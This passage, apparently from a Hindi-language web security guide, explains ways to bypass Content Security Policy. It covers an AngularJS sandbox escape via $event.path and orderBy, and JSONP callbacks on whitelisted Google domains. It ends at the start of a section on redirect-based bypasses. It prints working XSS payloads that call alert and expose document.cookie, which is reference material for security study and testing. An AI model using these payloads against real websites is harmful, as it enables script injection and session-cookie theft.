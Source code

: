 एक विशेष नीति जिसे सामग्री सुरक्षा नीति (CSP) के रूप में जाना जाता है, JavaScript घटनाओं को प्रतिबंधित कर सकती है। फिर भी, AngularJS एक वैकल्पिक के रूप में कस्टम घटनाएँ पेश करता है। एक घटना के भीतर, AngularJS एक अद्वितीय ऑब्जेक्ट `$event` प्रदान करता है, जो मूल ब्राउज़र घटना ऑब्जेक्ट को संदर्भित करता है। इस `$event` ऑब्जेक्ट का उपयोग CSP को दरकिनार करने के लिए किया जा सकता है। विशेष रूप से, Chrome में, `$event/event` ऑब्जेक्ट में एक `path` विशेषता होती है, जो घटना के निष्पादन श्रृंखला में शामिल ऑब्जेक्टों की एक सरणी रखती है, जिसमें `window` ऑब्जेक्ट हमेशा अंत में स्थित होता है। यह संरचना सैंडबॉक्स बचाव रणनीतियों के लिए महत्वपूर्ण है।

इस सरणी को `orderBy` फ़िल्टर की ओर निर्देशित करके, इसे पुनरावृत्त करना संभव है, अंतिम तत्व ( `window` ऑब्जेक्ट) का उपयोग करके एक वैश्विक फ़ंक्शन जैसे `alert()` को सक्रिय करना। नीचे प्रदर्शित कोड स्निपेट इस प्रक्रिया को स्पष्ट करता है:
```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```
यह स्निप्पेट `ng-focus` निर्देश का उपयोग करके इवेंट को ट्रिगर करने को उजागर करता है, `$event.path|orderBy` का उपयोग करके `path` एरे को संशोधित करता है, और `alert()` फ़ंक्शन को निष्पादित करने के लिए `window` ऑब्जेक्ट का लाभ उठाता है, इस प्रकार `document.cookie` को प्रकट करता है।

**अन्य Angular बायपास खोजें** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### AngularJS और व्हाइटलिस्टेड डोमेन
```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```
एक CSP नीति जो Angular JS एप्लिकेशन में स्क्रिप्ट लोडिंग के लिए डोमेन को व्हाइटलिस्ट करती है, को कॉलबैक फ़ंक्शनों और कुछ कमजोर वर्गों के आह्वान के माध्यम से बायपास किया जा सकता है। इस तकनीक पर अधिक जानकारी इस [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh\*t,-it's-CSP!%22) पर उपलब्ध विस्तृत गाइड में मिल सकती है।

कार्यशील पेलोड:
```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
अन्य JSONP मनमाने निष्पादन एंडपॉइंट [**यहां**](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) पाए जा सकते हैं (इनमें से कुछ हटा दिए गए या ठीक कर दिए गए हैं)

### रीडायरेक्शन के माध्यम से बायपास

जब CSP सर्वर-साइड रीडायरेक्शन का सामना करता है तो क्या होता है? यदि रीडायरेक्शन एक अलग मूल की ओर ले जाता है जो अनुमति नहीं है, तो यह अभी भी विफल हो जाएगा।

हालांकि, [CSP स्पेक 4.2.2.3. पथ और रीडायरेक्ट्स](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects) में वर्णन के अनुसार, यदि रीडायरेक्शन एक अलग पथ की ओर ले जाता है, तो यह मूल प्रतिबंधों को बायपास कर सकता है।
